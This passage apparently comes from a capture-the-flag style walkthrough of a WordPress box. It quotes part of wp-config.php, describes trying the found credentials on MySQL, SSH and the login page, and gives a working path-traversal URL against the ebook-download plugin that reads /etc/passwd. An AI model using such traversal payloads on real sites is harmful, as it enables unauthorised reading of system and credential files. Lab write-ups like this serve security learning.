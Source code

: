 ```bash
 *
 * You can have multiple installations in one database if you give each
 * a unique prefix. Only numbers, letters, and underscores please!
 */
$table_prefix = 'wp_';

/**
 * For developers: WordPress debugging mode.
 *
 * Change this to true to enable the display of notices during development.
 * It is strongly recommended that plugin and theme developers use WP_DEBUG
 * in their development environments.
 *
 * For information on other constants that can be used for debugging,
 * visit the documentation.
 *
 * @link https://wordpress.org/support/article/debugging-in-wordpress/
 */
define( 'WP_DEBUG', false );

/* Add any custom values between this line and the "stop editing" line. */



/* That's all, stop editing! Happy publishing. */

/** Absolute path to the WordPress directory. */
if ( ! defined( 'ABSPATH' ) ) {
	define( 'ABSPATH', __DIR__ . '/' );
}

/** Sets up WordPress vars and included files. */
require_once ABSPATH . 'wp-settings.php';
```

Okay, so there are some credentials here. However, I tried them in every place I could imagine with no luck:

> MySQL  
> SSH  
> /wp-login/ Portal  

THAT'S OKAY. After this, I attempted to grab /etc/passwd via the same Local File Inclusion but had trouble. After a couple attempts, I discovered that you need a *minimum* of six parent-directory moves (../)  
Here is the directory traversal to download the sensitive /etc/passwd file:

> 10.10.11.125/wp-content/plugins/ebook-download/filedownload.php?ebookdownloadurl=../../../../../../etc/passwd

[Here](https://pentestlab.blog/2012/06/29/directory-traversal-cheat-sheet/) is a link to a directory traversal cheatsheet that has proven to be very helpful if you don't know what to look for.
